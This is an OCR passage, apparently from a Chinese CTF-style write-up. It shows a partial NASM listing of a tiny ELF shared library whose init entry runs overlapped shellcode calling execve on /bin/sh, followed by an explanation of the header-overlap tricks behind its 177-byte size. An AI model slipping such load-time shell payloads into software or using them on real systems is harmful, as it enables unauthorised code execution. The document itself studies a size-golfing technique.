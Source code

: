 ```
            dw      phdrsize                        ;   e_phentsize
            dw      2                               ;   e_phnum
    part_b:
            push    rdi
            push    rdi
            push    rsp                      
            mov     al, 59                    
            jmp     part_c                         

ehdrsize    equ     $ - ehdr

phdr:                                               ;   Elf64_Phdr
    phdr_loadable:
            dd      1                               ;   p_type
            dd      7                               ;   p_flags
            dq      0                               ;   p_offset
            dq      $$                              ;   p_vaddr
    part_c:
            pop     rsi
            xor     edx, edx
            syscall
            nop
            nop
            nop
            dq      filesize                        ;   p_filesz
            dq      filesize                        ;   p_memsz
            dq      0x1000                          ;   p_align

phdrsize    equ     $ - phdr

    phdr_dynamic:
            dd      2                               ;   p_type
            dd      7                               ;   p_flags
            dq      dynamic                         ;   p_offset
            dq      dynamic                         ;   p_vaddr
    dynamic:
        dt_init:
            dq          13
            dq          shellcode_begin
        dt_strtab:
            dq          5
            dq          0
        dt_symtab:
            dq          6

filesize    equ     $ - $$
```

首先，在`program_head_table`中，事实上有一些项是可以不被使用的，真正不可缺失的只有`type`、`flags`、`offset`、`virtual_address`，那么可以直接把`offset`、`virtual_address`覆盖成`virtual_address`之后的地址来实现一个`dynamic`和`phdr_dynamic`的重叠，然后，当共享库调用`fini`函数时，首先会调用`shellcode_begin`，`shellcode_begin`和`Elf64_Ehdr -&gt; e_shoff`进行了空间复用，**在那之后，程序会将`pop rdi`指令的地址压栈，因为这个地址是`call part_a`的返回地址**，而我们接下来，将这个返回地址赋给`rdi`，然后让其减去`0x15`，这将会恰好使其指向`/bin/sh`的地址处接下来的一系列shellcode也和`Elf64_Ehdr`进行了空间复用，构造的十分精巧，去掉末尾0后最终大小仅177字节。

